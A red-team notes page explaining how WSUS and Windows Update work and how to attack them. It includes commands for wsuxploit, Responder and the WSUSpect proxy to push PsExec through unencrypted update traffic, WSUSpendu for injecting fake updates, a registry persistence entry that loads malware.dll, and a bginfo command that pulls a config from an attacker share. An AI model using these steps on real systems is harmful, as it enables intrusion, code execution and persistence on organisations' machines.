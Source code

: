 ```yaml
---
layout: single
title: Red Teaming WSUS
date: 2020-06-15
classes: wide
tags:
  - Red Team
---
```


# Introduction

Windows updates are an important aspect of security in every organization. For a Windows Update to be delivered at an endpoint, the endpoint will first have to either check for any new updates online or check with a local WSUS server for the same matter.  

# Windows Update Fundamentals  

## Windows Update from a security perspective  

  - Privileged service. Updates can be downloaded and installed by non-privileged users. Potential privilege escalation.  
  - Windows Update downloads and executes code over the internet. This introduces a huge attack vector if not done properly.  
  - 3rd Party code is also distributed trough Windows Update, such as drivers.  
  - Any malicious code that manages to be delivered through Windows Update will look trustworthy.  

## Overview  

  - Windows service.  
  - wuauclt.exe runs periodically to check for updates.  
  - Reg Keys govern various details: 
    - Update Server's location.  
    - Update frequency.    
    - Privilege escalation of unprivileged users.  
  - Communication between client and server takes place over HTTPS / SOAP XML web service.  
  - Local database of updates saved into ```C:\Windows\SoftwareDistribution\DataStore\DataStore.edb```  
  - Updates end up in ```C:\Windows\SoftwareDistribution\Download```  
  - Logs are kept in ```C:\Windows\WindowsUpdate.log```  

## Update Types  

  - Critical Update  
  - Security Update  
  - Definition Update  
  - Update Rollup  
  - Service Pack  
  - Tool  
  - Feature Pack  
  - Update  
  - Drivers  

## Windows Software Update Services (WSUS)  

### Overview  

  - WSUS can be seen as the enterprise variant of Windows Update  
  - WSUS is actually the Windows Update software responsible for the fetching, downloading and installing of Windows updates but it is installed and run from an organization’s own local server.   
  - Same underlying communications Web Service / SOAP XML  
  - Updates fetched from WSUS within the organisation, not from a remote MS server.  
  - Administrators have full control over what will be installed.  

### WSUS Security  

  - SSL not enabled by default  
  - WSUS checks each update's digital signature and hash while downloading.  
  - All updates must be signed by Microsoft.  
  - Default Windows behaviour it to download and install drivers for new devices.  
  - Drivers must be signed, though not necessarily by Microsoft  


### Identify WSUS  

  - ```reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer``` --> 1==WSUS, 0!=WSUS.  
  - ```reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer``` --> Get WSUS URL  
  - ```reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Connections"``` Check if proxy automatic detection is enabled. 5th byte of the result must be even!

# Attacking WSUS  

## Unencrypted communications  

### WSUXploit  

**Requirements**  

  - SSL Must be disabled (default)  
  - Only signed binaries by MS can be delivered (PsExec)  
  - ARP Spoofing or tampering system's proxy settings ability. 
  - Windows 10 Not Supported.  
  - ```pip2.7 install twisted``` 
  - OS Requirements: samba dsniff iptables  

```bash
# clone WSUXploit repository
git clone https://github.com/pimps/wsuxploit.git

# enter on wsuxploit directory
cd wsuxploit

# clone WSUSpect Proxy repository
git clone https://github.com/ctxis/wsuspect-proxy.git
```
**Attack**  

  - ```./wsuxploit.sh <TARGET_IP> <WSUS_IP> <WSUS_PORT> <BINARY_PATH>```   
  - Bettercap can be used for ARP Spoofing.  


### WSUSpect

**Requirements**  

  - SSL Must be disabled (default)  
  - Only signed binaries by MS can be delivered (PsExec)  
  - ARP Spoofing or tampering system's proxy settings ability. 
  - Windows 10 Not Supported.  
  - ```pip2.7 install twisted```  

**Attack**

  - ```python Responder.py -I eth0 -wFb```
  - ```python2.7 wsuspect_proxy.py psexec``` --> Example
  - bginfo can be abused to load vbs scripts.  


## Leveraging WSUS Interconnectivity  

Sensitive information could be in a separate network which is difficult to reach. WSUS is usually within our reach and may communicate with another WSUS server if "Multiple Internally Synchronized WSUS Servers" Network architecture exists. Compromising a WSUS server could be used to reach segregated networks.  

Fake updates can be injected into the WSUS Database using [WSUSpendu](https://github.com/AlsidOfficial/WSUSpendu), the WSUS database will be eventually be synchronized between all the domain's WSUS servers.  

[Stealthily Spreading the Compromise Through Windows Server Update](./Stealthily Spreading the Compromise Through Windows Server Update.md)

# Leveraging Windows Update For Persistence  

Windows Update uses the following autostart key:  
  - `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate\Setup\ServiceStartup`  

Example Entry:
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate\Setup\ServiceStartup\malware.dll
"RegistrationFlags"=dword:00000001
"CacheFile"="C:\\test\\malware.dll"
"TargetFile"="C:\\WINDOWS\\system32\\malware.dll"
```  

This entry will copy malware.dll to c:\windows\system32\malware.dll and load it.  

> Not working on Windows 8 or 10 (Different triggering method required)  

# Resources  

  - [WSUSpect Proxy](https://github.com/ctxis/wsuspect-proxy)  
  - [WSUSPect Compromising the Windows Enterprise via Windows Update](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf)  **```bginfo \\attacker\share\config.bgi /nolicprompt /timer:0```**  
  - [wsuxploit](https://github.com/pimps/wsuxploit)  
  - [WSUSPendu](https://github.com/AlsidOfficial/WSUSpendu)  
  - [Create bginfo config to run vbs](https://www.howtogeek.com/school/sysinternals-pro/lesson7/)  
  - [Beyond good ol’ Run key, Part 60](http://www.hexacorn.com/blog/2017/03/18/beyond-good-ol-run-key-part-60/)  
